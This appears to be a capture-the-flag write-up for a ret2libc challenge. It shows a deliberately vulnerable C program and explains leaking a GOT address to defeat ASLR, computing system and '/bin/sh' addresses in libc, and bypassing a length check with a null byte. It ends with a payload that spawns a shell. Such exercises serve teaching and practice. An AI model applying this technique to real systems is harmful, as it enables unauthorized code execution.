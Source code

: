 # Ret2Libc

```C
#include<stdio.h>
//#include<stdlib.h>

int main(){
    setvbuf(stdout,0,2,0);
    printf( "Where do you want to see in the memory? Give me the address in decimal:" );
    long *p;
    scanf( "%ld" , &p );
    printf( "The value in memory at %p is %p.\n" , p , *p );

    puts("Bypass the check, and ret2libcccccccccccc");

    char buf[10];
    read( 0 , buf , 200 );
    
    if( strlen( buf ) > 6 ) {
        puts( "It could not > 6. If you want the flag, Over my dead body!!!!!" );
        exit(0);
    }

    return 0;
}
```
Because ASLR is on, so we need to leak out the real address at the time running the program.

As we can see, we can throw a decimal address to obtain the real address.

So, which address should we throw?

There are two options: 1.setvbuf 2.printf

For my solution, I chose the second choice. Now, what address should we throw over?

Here, another required knowledge is about `Lazy Binding`, which has to do with `PLT (Procedure Linkage Table)` and `GOT (Global Offset Table)`. Once a function is called, its address in GOT will remain.

    400773:	bf 98 08 40 00       	mov    $0x400898,%edi
    400778:	b8 00 00 00 00       	mov    $0x0,%eax
    40077d:	e8 6e fe ff ff       	callq  4005f0 <printf@plt>
    
 From `objdump` we can see that calling `printf()` is calls `4005f0 <printf@plt>`. So that continue to look at where it goes.
 
    00000000004005f0 <printf@plt>:
    4005f0:	ff 25 32 0a 20 00    	jmpq   *0x200a32(%rip)        # 601028 <_GLOBAL_OFFSET_TABLE_+0x28>
    4005f6:	68 02 00 00 00       	pushq  $0x2
    4005fb:	e9 c0 ff ff ff       	jmpq   4005c0 <_init+0x28>
    
 Ah! It goes to `print@plt` and in the first line it jumps to `601028` in the GOT. GOT address will be one we need.
 
 Remeber this equation:
 
  <b> `Real Address = Base Address + Offset` </b>
  
So, where do we find offset of a function? Libc.so.6!

There are two ways to read `libc.so.6`:

  1.  objdump -T libc.so.6
  2.  readelf -s libc.so.6
 
For me, I prefer the second one, since it looks nicer.

After we have the offset of `printf`, we can now caculate the base address:

    Real Address (Obtain from output) = Base Address + Offset (Obtain from libc.so.6)
    Base Address = printf_addr - printf_offset
    
Then we need `system` since our goal is to call `system("/bin/sh")`

Agian `system` offset can be found in `libc.so.6`.
  
    system_addr = base_addr + system_offset
    
Now how about `/bin/sh`? Let's try finding it in `libc.so.6`! Luckily, we found it!

    strings -t x libc.so.6 | grep "/bin/sh"
    
Next, we need to caculate our payload from `objdump`, which is 0x28. 

And one import thing is to put `/bin/sh` into rdi, so, again, we need our ROPgadget:

    ROPGadget --binary ret2libc --ropchaing | grep 'pop rdi ; ret'

Later on....oh! There's one more thing if we look at `ret2libc.c` -- 

    ```C
    if( strlen( buf ) > 6 ) {
        puts( "It could not > 6. If you want the flag, Over my dead body!!!!!" );
        exit(0);
    }
    ``
 Hmmmmmm....Length checking... how are we going to pass this and overflow?
 
This has to do with a feature of string -- <b>end with `\x00` or `\0`</b>
 
Our payload will need five bytes first with `\x00` as the 6th byte then fill up the rest with padding (0x28 - 6 = 0x22 bytes)

Thus, the final payload will be:
  
```Python
p.sendline(b"A"*0x5 + b"\x00" + b"\x90"*0x22 + p64(0x400873) + p64(bin_sh_addr) + p64(sys_addr))
```
  

 
 
